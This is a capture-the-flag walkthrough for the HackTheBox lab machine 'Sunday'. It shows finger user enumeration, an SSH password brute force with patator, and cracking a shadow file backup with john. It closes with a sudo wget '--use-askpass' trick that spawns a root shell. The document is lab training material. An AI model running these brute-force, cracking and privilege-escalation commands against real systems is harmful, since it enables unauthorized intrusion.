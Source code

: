 ## Sunday

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.76 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/7a42d531-5009-45e3-8844-b2118c6167da)

<br>

Port 79 is open. We can see how to proceed with hacktricks blog.  

We can enumerate users with [this script](https://pentestmonkey.net/tools/user-enumeration/finger-user-enum).

```
perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76

Response:
root@10.10.10.76: root     Super-User            console      <Oct 14, 2022>..
sammy@10.10.10.76: sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13
```

![scan](https://github.com/b1d0ws/OSCP/assets/58514930/9d4ff2f0-abd5-4c2a-8d3c-75485b777656)

<br>

We can login with sunny user using "sunday" as password. Remember that this machine has SSH on port 22022.  

This password could be brute forced with tools like patator.

```
patator ssh_login host=10.10.10.76 port=22022 user=sunny password=FILE0 0=/usr/share/seclists/Password/probable-v2-top1575.txt persistent=0 -x ignore:mesg='Authentication failed.'
```

![sshLogin](https://github.com/b1d0ws/OSCP/assets/58514930/f4569379-7cfe-484f-82dc-531f7f6eb7cf)

### Root Flag

#### Sammy User

Inside /backup there is a shadow copy file. We can unshadow this an get sammy's password.

```
unshadow passwd shadow > hashes
john hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

![backupDirectory](https://github.com/b1d0ws/OSCP/assets/58514930/ba864b21-3f8c-4b5b-8c90-71804064e319)

![unshadow](https://github.com/b1d0ws/OSCP/assets/58514930/5f34df7e-9d13-43c9-92da-cae68e371b2e)

<br>

#### Root User

On sudo -l, saammy can execute wget. Use the commands below to get root.

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/035c3733-2ead-424a-8424-724fac3a38c6)
